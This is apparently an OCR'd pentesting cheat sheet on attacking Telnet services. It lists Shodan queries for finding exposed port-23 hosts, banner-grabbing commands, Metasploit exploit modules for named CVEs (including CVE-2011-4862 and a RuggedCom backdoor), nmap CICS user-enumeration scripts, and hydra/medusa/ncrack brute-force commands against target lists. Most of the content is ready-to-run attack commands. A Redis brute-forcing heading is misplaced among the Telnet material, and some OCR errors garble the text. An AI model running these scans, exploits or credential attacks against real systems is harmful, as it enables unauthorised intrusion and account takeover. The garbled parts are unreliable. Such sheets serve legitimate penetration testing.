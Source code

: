 Telnet

Telnet usually uses port 23,992

What is Telnet?

Telnet is a network protocol used to virtually access a computer and to provide a two-way, collaborative and text-based communication channel between two machines.

| 1 2  | PORT STATE SERVICE VERSION 23/tcp open telnet   |
|------|-------------------------------------------------|

Redis Password Authentication Bruteforcing Methods

| 1 2  | \#Metasploit Framework msf\> use auxiliary/scanner/redis/redis_login  |
|------|-----------------------------------------------------------------------|

Telnet Pentesting

| **![](media/af8e68b1d4ef60ad4ab180ccb81e05b5.png) Shodan search query :**                                                     |
|-------------------------------------------------------------------------------------------------------------------------------|
| port:23                                                                                                                       |
| \# You can use this command only on your shodan-cli : shodan stream --ports 23,1023,2323 --datadir telnet-data/ --limit 10000 |

Banner Grabbing

| 1 2 3 4 5 6 7  | telnet 10.10.x.x 23 nc 10.10.x.x 23 Nmap: banner nc -vn 10.10.x.x 23 nmap -n -sV -Pn --script "\*telnet\* and safe" -p 23 10.10.x.x msf \> use auxiliary/scanner/telnet/telnet_version msf \> use auxiliary/scanner/telnet/lantronix_telnet_version  |
|----------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![Telnet version grabbing with metasploit module.](media/b059485e9d267a7e98932874291a6648.png)Telnet version grabbing with metasploit module.

Connection Tools

Linux:

| 1  | telnet -l username 10.10.x.x 23  |
|----|----------------------------------|

Windows:

-   Putty

Telnet Vulnerabilities

Specific Vulnerabilities and Exploits

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14  | \#BOF: FreeBSD 7.3 – 9.0; MIT Kerberos v5 Applications (krb5-appl) \<= 1.0.2; Heimdal \<= 1.5.1; GNU inetutils [CVE-2011-4862] msf \> use auxiliary/scanner/telnet/telnet_encrypt_overflow msf \> use exploit/linux/telnet/telnet_encrypt_keyid msf \> use exploit/freebsd/telnet/telnet_encrypt_keyid  \#SenNet Optimal DataLogger \<= V5.37c-1.43c; SenNet Solar Datalogger \<= V5.03-1.56a; SenNet Multitask Meter \<= V5.21a-1.18b [CVE-2017-6048] [TCP/5000] msf \> use auxiliary/scanner/telnet/satel_cmd_exec  \#RuggedCom Rugged Operating System (ROS) Telnet backdoor [CVE-2012-1803] Exploit-DB: 18779.txt msf \> use auxiliary/scanner/telnet/telnet_ruggedcom  \#Lantronix Device Server V5.8.0.1 [UDP\\30718] msf \> use auxiliary/scanner/telnet/lantronix_telnet_password  |
|-----------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

There are also product-based vulnerabilities and scripts for vulnerabilities.

IBM CICS:

| 1 2 3  | \#Nmap Scripts: nmap --script=cics-enum -p 23 10.10.x.x nmap --script=cics-user-enum -p 23 10.10.x.x  |
|--------|-------------------------------------------------------------------------------------------------------|

IBM TN32701:

| 1 2  | \#Nmap Scripts: nmap --script tn3270-info,tn3270_screen 10.10.x.x  |
|------|--------------------------------------------------------------------|

Telnet Credentials

Brute Forcing

| 1 2 3 4  | hydra -t 2 -L users.list -P passwords.list -M TargetIPs.list -s 23 telnet medusa -t 2 -T 2 -U users.list -P passwords.list -H TargetIPs.list -n 23 -M telnet ncrack -g CL=2 -U users.list -P passwords.list -iL TargetIPs.list -p telnet:23 -oA Result.txt msf \> use auxiliary/scanner/telnet/telnet_login |
|----------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
